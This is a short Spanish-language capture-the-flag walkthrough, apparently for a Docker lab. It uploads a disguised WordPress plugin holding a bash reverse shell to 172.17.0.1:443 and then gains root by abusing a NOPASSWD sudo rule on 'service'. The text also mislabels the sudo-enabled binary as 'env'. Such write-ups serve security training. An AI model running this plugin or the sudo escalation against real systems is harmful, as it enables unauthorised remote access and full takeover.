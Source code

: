 Subimos con put una reverse shell mientras nos ponemos en escucha en el puerto 443: 

   ```bash

<?php

/**
* Plugin Name: test-plugin
* Plugin URI: https://www.your-site.com/
* Description: Test.
* Version: 0.1
* Author: your-name
* Author URI: https://www.your-site.com/
**/


	exec("/bin/bash -c 'bash -i > /dev/tcp/172.17.0.1/443 0>&1'");

?>

```

# ESCALADA PRIVILEGIOS

Buscamos archivos con permisos SUDO:
   ```bash
www-data@cb7cc5e03325:/var/www/html$ sudo -l
Matching Defaults entries for www-data on cb7cc5e03325:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on cb7cc5e03325:
    (ALL) NOPASSWD: /usr/sbin/service

```

Vemos **env** con permisos SUDO :
   ```bash
www-data@cb7cc5e03325:/var/www/html$     sudo service ../../bin/sh

# # whoami
root
# 

```

**YA ESTAMOS COMO ROOT.**
